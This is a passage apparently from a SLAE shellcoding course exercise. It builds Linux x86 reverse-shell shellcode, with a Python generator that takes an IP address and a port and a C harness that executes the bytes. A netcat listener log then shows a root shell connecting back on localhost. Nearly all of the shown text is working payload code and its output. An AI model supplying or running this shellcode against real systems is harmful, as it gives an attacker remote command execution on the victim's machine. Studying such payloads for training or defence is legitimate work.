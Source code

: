     shellcode ="\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x01\\x31\\xc9\\x51\\x53\\x6a\\x02\\x89\\xe1"
    shellcode+="\\xcd\\x80\\x31\\xff\\x89\\xc7\\x31\\xc0\\xb0\\x66\\x31\\xc9\\xb9"
    print("Ip is: ")
    print(ip)
    shellcode+= ip # "\\x80\\x01\\x01\\x02"
    shellcode+="\\x81\\xe9\\x01\\x01\\x01\\x01\\x51\\x66\\x68"
    print("Port is: ")
    print(port)
    shellcode+= port
    shellcode+="\\x43\\x66\\x53\\x89"
    shellcode+="\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\x43\\xcd\\x80\\x31\\xc9\\xb1\\x02\\x31\\xc0"
    shellcode+="\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x31\\xc0\\xb0\\x0b\\x31\\xdb\\x53\\x68\\x2f"
    shellcode+="\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xcd\\x80";
    
    print(shellcode)

Pop it in our shellcode.c program again:

\#+NAME shellcode.c

    #include<stdio.h>
    #include<string.h>
    
    unsigned char code[] = \
    "\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1"
    "\xcd\x80\x31\xff\x89\xc7\x31\xc0\xb0\x66\x31\xc9\xb9\x80\x1\x1\x2"
    "\x81\xe9\x01\x01\x01\x01\x51\x66\x68\x11\x5c\x43\x66\x53\x89\xe1"
    "\x6a\x10\x51\x57\x89\xe1\x43\xcd\x80\x31\xc9\xb1\x02\x31\xc0\xb0"
    "\x3f\xcd\x80\x49\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f"
    "\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80";
    
    main()
    {
    
      printf("Shellcode Length:  %d\n", strlen(code));
    
      int (*ret)() = (int(*)())code;
    
      ret();
    
    }

Setup our netcat listener and:

    root@funos:~/shared/SLAE/slae/exercise2# nc -nlvp 4444
    listening on [any] 4444 ...
    connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37311
    id
    uid=0(root) gid=0(root) groups=0(root)

Presto! We have a reverse shell connection!
